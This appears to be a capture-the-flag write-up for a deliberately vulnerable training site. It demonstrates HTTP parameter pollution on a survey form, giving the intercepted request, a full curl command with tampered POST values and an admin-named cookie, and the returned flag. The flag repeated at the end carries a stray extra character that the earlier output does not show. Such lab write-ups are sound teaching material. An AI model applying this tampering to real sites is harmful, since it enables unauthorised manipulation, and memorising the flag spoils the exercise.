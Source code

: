 # Parameter pollution
- a technique where attackers manipulate HTTP parameters to alter the behavior of a web application in unintended ways
- this manipulation is achieved by adding, modifying, or duplicating POST data
- https://book.hacktricks.xyz/pentesting-web/parameter-pollution

<b>keywords</b>: survey<br>
<b>attacked site</b>: http://borntosec.42/?page=survey#

## Exploit
Upon examining the network traffic for the survey website and sending a sample request, we intercept a fetch request:
``` http
FETCH:
await fetch("http://borntosec.42/?page=survey#", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "application/x-www-form-urlencoded",
        "Upgrade-Insecure-Requests": "1"
    },
    "referrer": "http://borntosec.42/?page=survey",
    "body": "sujet=5&valeur=2",
    "method": "POST",
    "mode": "cors"
});
```
We observe that two parameters, <code>sujet</code> and <code>valeur</code>, are sent to the server. This means we can manipulate the POST data:
```
sujet=$number1&valeur=$number2
```
By sending a modified request with <code>cURL</code> and filtering for the flag, after multiple tries we find that setting both parameters to 42 yields a successful result:
``` shell
└─$ curl 'http://borntosec.42/?page=survey#' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://borntosec.42' -H 'Connection: keep-alive' -H 'Referer: http://borntosec.42/?page=survey' -H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'sujet=42&valeur=42' | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
1<center><h2 style="margin-top:50px;"> The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <div style="margin-top:-75px">
00  1498    0  1480  100    18   470k   5855 --:--:-- --:--:-- --:--:--  731k
```
The flag is included in the response:
```
The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa
```

## Flag
03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaaq

